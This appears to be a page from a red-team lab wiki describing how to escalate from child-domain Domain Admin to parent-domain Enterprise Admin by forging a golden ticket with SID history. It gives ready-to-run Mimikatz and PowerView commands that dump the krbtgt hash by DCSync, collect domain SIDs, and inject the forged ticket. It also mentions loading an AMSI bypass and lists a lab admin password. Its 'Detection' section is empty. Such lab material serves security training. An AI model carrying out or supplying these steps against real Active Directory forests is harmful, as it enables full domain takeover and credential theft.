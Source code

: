 # Krbtgt hash

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (20).png>)

To execute the attack we need a couple bits of information:

* The hash of the krbtgt user.
* The SID of the Enterprise Admins group.
* The SID of the child domain.

3\. Execute a DCsync with MimiKatz and only retrieve the krbtgt hash:

```
Invoke-MimiKatz -Command '"lsadump::dcsync /user:amsterdam\krbtgt /domain:amsterdam.bank.local"'
```

![](<../../../.gitbook/assets/image (22).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (34).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSID
```

![](<../../../.gitbook/assets/image (21).png>)

6\. Create a golden ticket with MimiKatz and inject it into the current session:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```

![](<../../../.gitbook/assets/image (70).png>)

7\. The ticket injected successfully, now we can dir the c$ directory to check if our user has read/write access to the C disk:

![](<../../../.gitbook/assets/image (75).png>)

## Defending

### Detection



## References

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
